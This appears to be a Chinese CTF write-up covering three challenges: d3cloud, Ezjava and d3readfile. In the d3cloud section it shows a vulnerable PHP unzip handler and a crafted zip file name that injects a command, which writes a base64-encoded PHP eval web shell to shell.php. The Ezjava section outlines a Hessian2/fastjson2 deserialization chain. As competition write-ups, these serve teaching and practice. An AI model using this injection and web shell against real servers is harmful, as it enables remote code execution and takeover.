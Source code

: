 ## Web
### d3cloud
访问/admin后台 admin:admin登录管理员账号
在侧边栏有文件管理，可以上传zip包，同时下载文件`FilesystemAdapter.php`
对文件进行代码审计后,在这里的解压存在命令注入

```php
public function putFileAs($path, $file, $name, $options = [])
    {
        $supported_file = array('gif','jpg','jpeg','png','ico','zip','mp4','mp3','mkv','avi','txt');
        $file_type= strtolower(pathinfo($name,PATHINFO_EXTENSION));
        if (!in_array($file_type, $supported_file)) {
            return false;
        }
        $stream = fopen($file->getRealPath(), 'r+');
        $result = $this->put(
            $path = trim($path.'/'.$name, '/'), $stream, $options
        );
        if (is_resource($stream)) {
            fclose($stream);
        }
        if($file->getClientOriginalExtension() === "zip") {
            $fs = popen("unzip -oq ". $this->driver->getAdapter()->getPathPrefix() . $name ." -d " . $this->driver->getAdapter()->getPathPrefix(),"w");
            pclose($fs);
        }
        return $result ? $path : false;
    }
```

`1.zip || echo PD9waHAgZXZhbCgkX1JFUVVFU1RbInd1d3Vtb25zdGVyIl0pO3BocGluZm8oKTs= | base64 -d > shell.php # .zip`

![](attachments/Pasted%20image%2020230506152056.png)


直接访问shell.php

![](attachments/Pasted%20image%2020230506152206.png)

### Ezjava
在register里有hessian2的反序列化位置

![](attachments/Pasted%20image%2020230511133049.png)

在源码里面是可以看到flag自身是在server中的，server中代码和依赖有很明显的fastjson2，fastjson2的触发任意getter[FastJson 与原生反序列化 (seebug.org)](https://paper.seebug.org/2055/)，触发在这篇y4的文章里面写的很清楚了toString->toJSONString->get方法


![](attachments/Pasted%20image%2020230511133608.png)



## Misc
### d3readfile
在一个日志文件里面发现了有下载locate的历史记录，后面把locate拖出来做逆向

![](attachments/Pasted%20image%2020230503132422.png)

读取对应路径后发现

![](attachments/Pasted%20image%2020230503133013.png)

去除！后 `/opt/vwMDP4unF4cvqHrztduv4hpCw9H9Sdfh/UuRez4TstSQEXZpK74VoKWQc2KBubVZi/LcXAfeaD2KLrV8zBpuPdgsbVpGqLcykz/flag_1s_h3re_233`

![](attachments/Pasted%20image%2020230503133245.png)
